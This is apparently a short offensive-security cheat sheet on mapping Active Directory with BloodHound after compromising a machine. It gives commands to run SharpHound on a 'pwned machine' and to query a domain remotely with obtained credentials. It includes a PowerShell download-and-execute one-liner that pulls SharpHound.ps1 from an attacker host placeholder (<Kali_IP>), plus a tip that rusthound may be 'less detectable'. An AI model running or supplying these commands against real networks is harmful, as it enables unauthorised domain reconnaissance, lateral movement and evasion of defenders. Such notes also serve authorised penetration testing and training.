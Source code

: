 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Ansible
---
```



<span style="font-size: 35px; color:red"><b>BloodHound</b></span>
&nbsp;
Start BloodHound

```bash
sudo neo4j console
```

```bash
./bloodhound --no-sandbox
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>SharpHound</b></span>
Pull AD Configuration from pwned machine and load it into BloodHound
Copy _sharphound.exe_ in the pwned machine and run it from there
```shell
./SharpHound.exe -c all
```
It will create a .zip file that you can drag and drop into bloodhound

OR
```powershell
IEX(New-Object Net.WebClient).downloadString('http://<Kali_IP>/SharpHound.ps1')  
Invoke-BloodHound -CollectAll
```

Look for users that you pwned and use the suggestion box for 'shortest path from owned principles'
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>BloodHound-Python</b></span>
If you have working credentials but no shell, you can use bloodhound-python from remote like so:
```shell
bloodhound-python -u <user> -p <password> -ns <IP> -d <DOMAIN> -c all
```
<span style="color:red">Give a try to rusthound, maybe it's faster and less detectable!</span>
